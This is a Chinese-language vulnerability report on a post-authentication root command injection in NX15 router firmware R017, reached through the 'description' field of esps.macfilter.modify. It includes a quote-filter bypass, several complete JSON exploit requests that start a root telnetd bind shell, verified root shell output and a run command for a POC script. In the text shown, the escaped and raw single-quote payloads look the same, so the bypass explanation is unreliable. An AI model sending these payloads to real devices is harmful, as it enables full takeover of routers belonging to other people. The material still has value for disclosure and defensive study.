

# NX15 R017 `esps.macfilter.modify` 后置独立 root RCE

## 1. 结论

在 NX15 R017 上，`/api/esps` 的：

- `object = esps.macfilter`
- `method = modify`

存在一条**新的、独立的、即时触发型后认证 root RCE**。

- **接口**：`POST /api/esps`
- **对象**：`esps.macfilter`
- **方法**：`modify`
- **注入点**：`description`
- **权限**：后认证（管理员会话）
- **结果**：以 **root** 权限执行任意命令
- **验证设备**：`192.168.8.1`，NX15 firmware `R017`
- **结论等级**：**Confirmed / Exploited**

本轮已实机确认：

1. 直接原始单引号 `'` 会被 `/api/esps` 外层过滤挡住；
2. 但用 JSON Unicode 转义 `'` 可把真实单引号送入后端 shell `eval`；
3. 一次 `esps.macfilter.modify` 调用即可拉起 root shell；
4. 即使 `userfilter.basicinfo.enable=disable`，且目标 MAC 并不存在，只要传入**合法格式的 MAC**，漏洞仍可稳定利用。

---

## 2. 根因分析

目标脚本：

- `/usr/libexec/rpcd/esps.macfilter`

### 2.1 `modify` 接收可控 `description`

在 `modify)` 分支中：

```sh
json_get_var _mac mac
...
json_get_var _description description
json_get_var _internet internet
```

其中：
- `_mac` 会做 `is_valid_mac()` 校验；
- `_description` **不会做危险字符过滤**。

### 2.2 即使该 MAC 不存在，脚本也会继续走到 sink

若该 MAC 不在 `webrestriction` 里：

```sh
if [ "$check_repeat" -eq "0" ]; then
    code=$(macfilter_addCurUser "$_mac" "$_description" "$_internet")
else
    ...
fi
```

也就是说，攻击者不必先预置一条现有项；
只要传一个**合法格式**的全新 MAC，脚本就会先创建/补入条目，然后继续执行后面的危险逻辑。

### 2.3 真正的命令注入 sink

在 `code == 0` 的成功路径中：

```sh
_list='\{""mac":"$_mac","name":"$_description", "internet":"$_internet""\}'
eval ubus call usrlist modify_terminal_name "$_list" > /dev/null
```

这里有三个关键问题：

1. `_description` 直接进入 `_list`；
2. `_list` 是**手工拼的 shell 片段**，不是安全的 JSON 序列化结果；
3. 最后又进入了 `eval ...`，导致 shell 对整段字符串再次解析。

因此，一旦 `_description` 中出现真实单引号，就可以破坏 `eval` 里的 shell 语义，并在当前 root shell 上下文中执行攻击者命令。

### 2.4 为什么需要 `'`

直接在 HTTP 请求里放原始 `'`：

```json
{"description":"q';..."}
```

会被 `/api/esps` 外层过滤器挡住，响应：

```json
{"code":21,"message":"'"}
```

但如果在**原始 JSON body** 中写：

```json
{"description":"x';...;#"}
```

则 JSON 解析后，脚本变量 `_description` 拿到的已经是真实单引号；
同时又绕过了最外层的原始字符检查。

---

## 3. 关键静态证据

### 3.1 `modify` 读取 `description`

```sh
json_get_var _description description
json_get_var _internet internet
```

### 3.2 不存在时会先新增当前用户项

```sh
if [ "$check_repeat" -eq "0" ]; then
    code=$(macfilter_addCurUser "$_mac" "$_description" "$_internet")
fi
```

### 3.3 危险 `_list` 手工拼接

```sh
_list='\{""mac":"$_mac","name":"$_description", "internet":"$_internet""\}'
```

### 3.4 `eval` 触发命令执行

```sh
eval ubus call usrlist modify_terminal_name "$_list" > /dev/null
```

---

## 4. 利用方式

### 4.1 直接原始单引号会失败

请求：

```json
[
  {
    "id": 1,
    "object": "esps.macfilter",
    "method": "modify",
    "param": {
      "mac": "AA:BB:CC:DD:EE:12",
      "description": "q';echo DIRECTQ_OK >/tmp/directq_ok;/usr/sbin/telnetd -p 2474 -l /bin/sh >/dev/null 2>&1;#",
      "internet": "true"
    }
  }
]
```

返回：

```json
{"code":21,"message":"'"}
```

### 4.2 使用 `'` 绕过并打通 root RCE

成功请求示例：

```json
[
  {
    "id": 1,
    "object": "esps.macfilter",
    "method": "modify",
    "param": {
      "mac": "AA:BB:CC:DD:EE:11",
      "description": "z';echo MACMOD2_OK >/tmp/macmod2_ok;/usr/sbin/telnetd -p 2473 -l /bin/sh >/dev/null 2>&1;#",
      "internet": "true"
    }
  }
]
```

这会在 `eval` 中把真实单引号送进 `_description`，最终以 root 身份执行：

```sh
echo MACMOD2_OK >/tmp/macmod2_ok
/usr/sbin/telnetd -p 2473 -l /bin/sh >/dev/null 2>&1
```

---

## 5. 动态验证

### 5.1 设备默认状态下即可利用

验证时设备状态：

```json
[{"id":1,"result":{"message":"COMMON:Success","data":{"status":"disable","mode":"blacklist"},"code":0}}]
```

即：
- `userfilter.basicinfo.enable = disable`
- 不需要先开启“禁止新用户上网”运行时开关

### 5.2 新 MAC + `'` payload 直接成功

请求：

```json
[
  {
    "id": 1,
    "object": "esps.macfilter",
    "method": "modify",
    "param": {
      "mac": "AA:BB:CC:DD:EE:11",
      "description": "z';echo MACMOD2_OK >/tmp/macmod2_ok;/usr/sbin/telnetd -p 2473 -l /bin/sh >/dev/null 2>&1;#",
      "internet": "true"
    }
  }
]
```

返回：

```json
[{"id":1,"result":{"message":"COMMON:Success","data":[],"code":0}}]
```

随后连接 `192.168.8.1:2473`，得到：

```text
BusyBox v1.30.1 (2025-08-01 14:05:52 CST) built-in shell (ash)
/ # id; uname -a; cat /tmp/macmod2_ok 2>/dev/null
uid=0(root) gid=0(root)
Linux NX15 4.4.176-svn22943 #2 Fri Aug 1 14:14:03 CST 2025 mips GNU/Linux
MACMOD2_OK
```

### 5.3 非法 MAC 时不会打到这条链

请求：

```json
[
  {
    "id": 1,
    "object": "esps.macfilter",
    "method": "modify",
    "param": {
      "mac": "BADMAC",
      "description": "m';echo BADMAC_OK >/tmp/badmac_ok;/usr/sbin/telnetd -p 2477 -l /bin/sh >/dev/null 2>&1;#",
      "internet": "true"
    }
  }
]
```

返回：

```json
[{"id":1,"result":{"message":"QOS:Invalid MAC format","data":[],"code":5643}}]
```

并且端口 `2477` **没有打开**。

这说明：
- `esps.macfilter.modify` 这条链本身仍受 `is_valid_mac()` 约束；
- 其独立 root cause 是：**合法 MAC 校验通过后，`description` 落入 `eval` sink**。

---

## 6. 与已知 `esps.macfilter add -> getlist` 存储型链的区别

此前已确认的 `esps.macfilter.add -> getlist` 链是：

- 先写入 `description`
- 再由 `getlist` 读回时的 `eval` 触发执行

而本条新链是：

- **`modify` 一次调用即刻触发**
- 不需要后续再调 `getlist`
- 不依赖存储后回读

因此它应单独计为：

> **新的、即时型、独立 root RCE**

---

## 7. 风险评估

成功利用后，攻击者可：

- 以 root 身份执行任意命令
- 添加后门、篡改配置、提取凭据
- 在一次普通的 `/api/esps` 管理请求中直接完成接管

如果与此前已确认的预认证改密链组合，还可形成更短的完整接管链。

---

## 8. POC

已落地 POC：

- `poc/postauth_esps_macfilter_modify_rce.py`

运行示例：

```bash
python3 poc/postauth_esps_macfilter_modify_rce.py --cleanup --port 2472
```



POC 包含：

1. 登录后台
2. 生成合法测试 MAC
3. 发送带 `'` 的 raw JSON body
4. 等待并连接 root shell
5. 证明 `id / uname / marker`
6. 删除新建的 macfilter 项并清理 shell

---

## 9. 结论

`esps.macfilter.modify` 提供了一条新的**即时触发型后认证 root RCE**。根因是：

- `description` 未过滤；
- `modify` 在成功路径中手工拼接 `_list`；
- 随后将其送入 `eval ubus call usrlist modify_terminal_name ...`；
- `'` 可以绕过外层原始单引号过滤，把真实单引号送入 shell；
- 最终以 root 权限执行任意命令。

这条链与先前的 `esps.macfilter add -> getlist` 存储型链互补，说明 `esps.macfilter` 不仅存在 stored command injection，还存在**immediate command injection**。
